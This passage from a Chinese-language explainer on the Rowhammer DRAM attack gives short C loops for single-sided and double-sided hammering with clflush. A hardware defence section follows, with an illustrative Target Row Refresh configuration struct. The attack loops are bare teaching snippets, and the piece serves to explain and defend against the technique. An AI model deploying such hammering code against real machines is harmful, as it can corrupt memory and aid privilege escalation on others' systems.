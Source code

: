```c
```

## 3. 攻击方式

### 3.1 单行攻击(Single-Sided Rowhammer)
```c
void single_sided_attack(void *target_row)
{
    // 持续访问目标行
    for (int i = 0; i < 1000000; i++) {
        clflush(target_row);
        *((volatile char *)target_row);
    }
}
```

### 3.2 双行攻击(Double-Sided Rowhammer)
```c
void double_sided_attack(void *row1, void *row2)
{
    for (int i = 0; i < 1000000; i++) {
        clflush(row1);
        clflush(row2);
        *((volatile char *)row1);
        *((volatile char *)row2);
    }
}
```

## 4. 防护措施

### 4.1 硬件层面防护

1. **Target Row Refresh (TRR)**
```c
// 硬件自动检测和刷新被频繁访问的行
struct dram_refresh_ctrl {
    unsigned long refresh_interval;
    unsigned long target_row_threshold;
    bool trr_enabled;
};

void init_trr(struct dram_refresh_ctrl *ctrl)
{
    ctrl->refresh_interval = 64000;  // 64ms
    ctrl->target_row_threshold = 32000;
    ctrl->trr_enabled = true;
}
```
